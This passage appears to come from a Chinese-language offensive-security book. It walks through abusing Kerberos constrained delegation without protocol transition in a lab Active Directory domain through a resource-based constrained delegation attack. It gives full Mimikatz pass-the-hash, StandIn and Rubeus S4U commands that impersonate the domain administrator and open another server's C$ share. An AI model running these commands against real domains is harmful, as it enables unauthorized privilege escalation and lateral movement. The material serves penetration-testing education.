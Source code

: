 图 5.38 – 配置了无协议转换的受限委托

在这种情况下，S4U2Self 请求不会导致可转发的票证，因此 S4U2Proxy 将无法工作。滥用无协议转换的受限委托的两种已知方法是：对服务执行 RBCD 攻击，或强制用户对服务进行身份验证以提取票证。为了滥用无协议转换的受限委托，我们将创建一个计算机账户，并将 `castelblack` 设置为允许从该账户进行 RBCD（我们需要 `SYSTEM` 权限来设置此属性）。然后，我们将以 `administrator` 身份委托到 `castelblack`，最后，我们可以在 S4U2Proxy 请求中使用这个可转发的 ST 来访问 `Winterfell` 服务。听起来很复杂，但我们将一步一步执行这个攻击。

在第一步中，我们将创建一个会话作为 `Castelblack$`，创建一个名为 `Test$` 的计算机账户，检索其 **安全标识符**（**SID**），并将 `Castelblack$` 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性设置为 `Test$`。我将使用 Mimikatz、PowerView 和 StandIn：

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:castelblack$ /ntlm:abd0f0459c9d6119d092d1bd87cb958b /domain:north.sevenkingdoms.local /run:cmd.exe"
StandIn.exe --computer Test --make
Get-DomainComputer -Name Test -Properties objectsid
StandIn.exe --computer castelblack --sid S-1-5-21-3600105556-770076851-109492085-1605
```

StandIn 命令的结果如以下截图所示：

![图 5.39 – 创建计算机账户并准备 RBCD 滥用](img/B18964_05_39.jpg)

图 5.39 – 创建计算机账户并准备 RBCD 滥用

接下来，我们将从计算机账户的密码计算出 AES256 密钥，并在 `Castelblack$` 上使用 `Test$` 滥用 RBCD。现在，我们拥有 `Castelblack$` 的可转发 ST：

```
Rubeus.exe hash /domain:north.sevenkingdoms.local /user:test$ /password:yN26WROLQvUCa30
Rubeus.exe s4u /user:test$ /aes256:5D2320ABFAFEA7 A451DC0883CB120047A93E1D38B632D42ACD2997F104D6C30A /impersonateuser:administrator /msdsspn:http/castelblack.north.sevenkingdoms.local /nowrap
```

最后，我们将使用可转发的 ST 来访问 Winterfell 的文件系统：

```
Rubeus.exe s4u /user:castelblack$ /rc4:abd0f0459c9d6119d092d1bd87cb958b /msdsspn:http/winterfell.north.sevenkingdoms.local /tgs:"ticket_from_previous_step" /altservice:cifs /ptt
dir \\winterfell.north.sevenkingdoms.local\c$
```
